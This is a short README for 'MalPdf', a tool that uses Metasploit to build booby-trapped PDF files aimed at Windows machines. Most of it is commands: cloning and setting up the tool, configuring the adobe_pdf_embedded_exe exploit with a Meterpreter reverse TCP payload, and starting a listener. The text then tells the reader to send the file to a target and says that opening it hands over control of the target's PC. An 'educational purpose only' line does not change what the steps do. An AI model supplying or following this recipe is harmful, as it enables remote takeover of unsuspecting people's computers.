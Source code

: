 # MalPdf

This is an easy to setup malicious pdf generator which uses metasploit framework.

##This works only with Linux##

This can exploit only windows
Requirements:
      1Gb data
      1Gb storage space

#This is not for exploiting other's PCs and this is for educational purpose only
First start your command prompt or power shell

Type the command:

apt install git
atp install sudo
atp install bash
git clone https://github.com/Nicko15/MalPdf.git
cd MalPdf


Now run the 'setup.sh' file by typing:

$./setup.sh

All the needed packages and frameworks will be downloaded

Now to create malicious pdf and use, type

$cd metasploit-framework

msfconsole
sudo bash create.sh
use exploit/windows/fileformat/adobe_pdf_embedded_exe
set payload windows/meterpreter/reverse_tcp
set FILENAME malfile.pdf
set LPORT 4444
show options
show info
run
exit
cd ..


 You will get a file path and you can shere the file to your target

To listen to the pdf, type:

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set LPORT 4444
set LHOST <your_ip>
run

Replace <your_ip> with your ip address
Now your pc will start listening. As soon as your target opens the pdf, you will get access over his pc
